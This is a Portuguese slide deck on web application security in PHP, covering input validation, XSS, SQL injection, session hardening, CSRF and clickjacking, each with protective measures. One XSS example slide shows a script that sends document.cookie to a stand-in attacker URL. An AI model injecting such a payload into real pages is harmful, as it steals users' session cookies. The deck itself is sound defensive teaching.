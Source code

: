 #HSLIDE
# Segurança no desenvolvimento web
<link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Ubuntu+Mono">
#HSLIDE
## Pilares da Segurança da Informação  
- Confidencialidade
- Integridade
- Disponibilidade
## Princípios  
- Segurança em múltiplas camadas
- Considere que cada camada eventualmente falhará
- Forneça o mínimo de informação necessária
#HSLIDE
## Validação de entradas
Considerando que a requisição HTTP pode ser manipulada pelo cliente, toda entrada do usuário deve ser validada.
#HSLIDE
### Proteção
- Para isso, o PHP oferece as extensões ***ctype*** e ***filter***. 
Além disso, a maioria dos frameworks de mercado implementam algum tipo de tratamento/sanitização de dados.
- PHP 7+ oferece ***type declarations*** que permitem especificar o tipo esperado de parâmetros.
Para isso:
```php
declare(strict_types=1);
```
#HSLIDE
## Cross-site scripting (XSS)
Ocorre quando um script inserido por um usuário é armazenado e/ou executado pela aplicação. 
#HSLIDE
### Exemplo
```javascript
<script>
(new Image()).src = “http://urldoatacante/?” + escape(document.cookie);
</script>
```
#HSLIDE
### Tipos
* Armazenado
* Não-persistente
* Baseado em DOM
#HSLIDE
### Consequências
- Roubo de *cookie*/sessão
- Manipulação de DOM
- *Keylogger*
- *Browser exploits*
- Basicamente tudo que o JavaScript permite
#HSLIDE
### Proteção
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) faz com que apenas códigos do mesmo *origin* (protocolo/domínio/porta) tenham acesso à aplicação, ao mesmo tempo que permite acesso a arquivos externos (uma lib como o [JQuery](https://jquery.com/), por exemplo)
- Filtrar entradas ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escapar as saídas ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Aplicar [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*) -> eliminar código inline
#HSLIDE
### Testando a CSP
```
Content-Security-Policy-Report-Only
report-uri /caminho/arquivo.php
```
#HSLIDE
## SQL Injection

### Proteção
- Não concatenar dados (parâmetros) com comandos
- Utilizar prepared statements
- Validar entradas
- Escapar caracteres
#HSLIDE
## Gerenciamento de estado

### Proteção
- Usar HTTPS
- Definir *secure* e *HttpOnly* *flags*
- Prevenir XSS
- [Alterar](http://php.net/manual/en/function.session-regenerate-id.php) ID de sessão
- Armazenar informação do usuário na sessão (*headers*)
- Detectar sequestro de sessão
- Usar [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) para dificultar o roubo de sessão
#HSLIDE
### Diretivas
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age=86400; includeSubDomains
```
#HSLIDE
## Cross-site Request Forgery (CSRF)
- Causado por vírus, scam/phishing, site/redirecionamento malicioso

### Proteção
- Não usar GET para operações que envolvam manipulação de dados (porém, o POST também pode ser manipulado)
- Enviar token 
#HSLIDE
### Clickjacking
- Atacante cria página e, através de requisições para o site alvo (usualmente via iframe), aproveita-se da sessão do usuário

#### Proteção
```php
header(‘X-FRAME-OPTIONS’, ‘DENY’); //ou SAMEORIGIN
```

#HSLIDE
## Ferramentas
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)
#HSLIDE
## Referências
[OWASP](https://www.owasp.org)
